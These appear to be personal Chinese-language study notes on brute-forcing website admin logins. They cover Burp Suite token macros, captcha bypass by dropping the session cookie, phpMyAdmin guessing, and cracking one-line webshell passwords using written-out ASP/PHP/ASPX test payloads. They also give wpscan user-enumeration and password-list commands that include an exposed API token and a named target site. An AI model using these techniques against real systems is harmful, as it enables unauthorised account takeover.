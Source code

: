 burpsuite 穷举后台密码
burpsuite 对 webshell 穷举破解密
burpsuite 设置宏获取 token 对网站后台
	[burp-suite利用宏爆破存在token的用户名和密码\_Change State的博客-CSDN博客](https://blog.csdn.net/qq_46107438/article/details/131263898)
	来到 Project options --> Session-- >add 添加
	Rule Action: add--> Run a macro
	select macro: Add--> 点击之后选择网页历史选择提交之后有 token 的页面。--->设置 configure item-->add 添加规--->![[Pasted image 20231207122732.png]]
	一路OK, 设置规则
	![[Pasted image 20231207123439.png]]
	设置生效范围
	![[Pasted image 20231207123409.png]]

编写脚本获取 token 对网站后台密码
	[requests 模块的 requests.session() 功能-CSDN博客](https://blog.csdn.net/qq_43439853/article/details/120495177)

针对有验证码后台的穷举方法
	cookie 不存在/不验证绕过，删除 PHPSESSION 信息 验证码就不进行验证了
	验证码可复用
	[[网站后台验证码识别穷举密码]]

phpmyadmin密码穷举
	![[Pasted image 20231210163612.png]]

一句话木马后门破解
	关键字密码是qweasd123
	asp
	qweasd123=execute("response.clear:response.write(""passwordright""):response.end")
	php
	qweasd123=echo "password right";
	aspx
	qweasd123=Response.Write("qweasd123");
	[[cheetah]]对一句话后门密码穷举/////偶然发现个工具[GitHub - Wker666/Demo: 1.33](https://github.com/Wker666/Demo)

wordpress 博客系统用户密码穷举
	https://wpscan.com 首先到这个网站注册账号和密码注册后获取 token
	自动找账号信息 然后登录穷举
	wpscan --url \http://www.wordpress.com/ -e u -P /home/kali/top100password.txt --api-token QYbHH6fbNDIi6Op3MQuvg85fD4fhNiB4RKJsVOMVp6w
	手动收集 wordpress 用户信息 访问连接获取用户信 http://www.vtmoon1.com/wp-json/wp/v2/users  获取信息可以再进行指定用户爆破
	wpscan --url \http://www.wordpress.com/ -U moonsec -P /home/kali/top1000.txt



